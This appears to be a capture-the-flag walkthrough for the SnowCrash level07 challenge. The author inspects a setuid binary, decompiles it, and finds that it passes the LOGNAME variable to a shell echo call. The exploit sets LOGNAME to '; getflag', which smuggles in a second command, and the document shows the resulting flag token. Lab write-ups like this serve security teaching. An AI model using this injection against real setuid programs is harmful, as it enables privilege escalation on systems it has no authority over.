

# level07
_The ritual_ :
- `pwd`: `/home/user/level07`
- `id`: `uid=2007(level07) gid=2007(level07) groups=2007(level07),100(users)`
- `ls -la`:
```sh
total 24
dr-x------ 1 level07 level07  120 Mar  5  2016 .
d--x--x--x 1 root    users    340 Aug 30  2015 ..
-r-x------ 1 level07 level07  220 Apr  3  2012 .bash_logout
-r-x------ 1 level07 level07 3518 Aug 30  2015 .bashrc
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
-r-x------ 1 level07 level07  675 Apr  3  2012 .profile
```
- `find / -user flag07 2> /dev/null`: nothing

## _BINARY FILE_
```sh
level07@SnowCrash:~$ ./level07
level07
level07@SnowCrash:~$
```
_???_
```sh
level07@SnowCrash:~$ ./level07 "Noah my beloved"
level07
level07@SnowCrash:~$
```
_It only print the first argument `argv[0]` ?_
```sh
level07@SnowCrash:~$ strings level07
...
setresuid@@GLIBC_2.0
...
level07@SnowCrash:~$
```

_From now on, my second ritual will be to decompile all the binary files that I find._

```sh
➜  ~ scp -P 4242 level07@127.0.0.1:/home/user/level07/level07 /Users/mayoub/Desktop/
	   _____                      _____               _
	  / ____|                    / ____|             | |
	 | (___  _ __   _____      _| |     _ __ __ _ ___| |__
	  \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \
	  ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
	 |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|

  Good luck & Have fun

          10.0.2.15 fec0::7556:8938:f6af:c775 fec0::5054:ff:fe12:3456
level07@127.0.0.1's password:
level07                                                                                                                                                                   100% 8805   501.9KB/s   00:00
➜  ~
```

## _DECOMPILATION TIME_



_Okayyyy it print the `LOGNAME` environnement variable, and not the first argument._

_So, if I understand, it execute `echo` with `LOGNAME`, let's try a trick :_
```sh
level07@SnowCrash:~$ export LOGNAME='; getflag'
level07@SnowCrash:~$ ./level07

Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
level07@SnowCrash:~$
```

# <u>_WTF IT WORKS OH MY GOD ?!?!?!?!_</u>
_It's only that. I didn't expect something so simple after the previous level... It's fishy..._
- But let's explain what `asprintf` do : imagine just the output of `printf` but you assign it to a variable, here the first argument `local_1c` who's a string character.

# That was easy

- Let's login to `level07` directly :
```sh
level07@SnowCrash:~$ su level08
Password:
level08@SnowCrash:~$
```
# level07 complet !
